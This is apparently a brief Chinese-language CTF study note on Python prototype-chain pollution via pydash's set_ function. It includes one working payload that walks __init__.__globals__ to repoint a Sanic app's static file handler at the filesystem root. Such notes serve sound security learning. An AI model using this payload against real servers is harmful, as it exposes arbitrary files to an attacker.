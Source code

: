 tags:: CTFWEB/Python/Python的原型链污染

- # 介绍
	- pydash的`_set`函数存在原型链污染漏洞
	- 示例
		- ```python
		  pydash.set_(pollute, "__init__.__globals__.app.router.name_index.__mp_main__\\.static.handler.keywords.file_or_directory", "/")
		  ```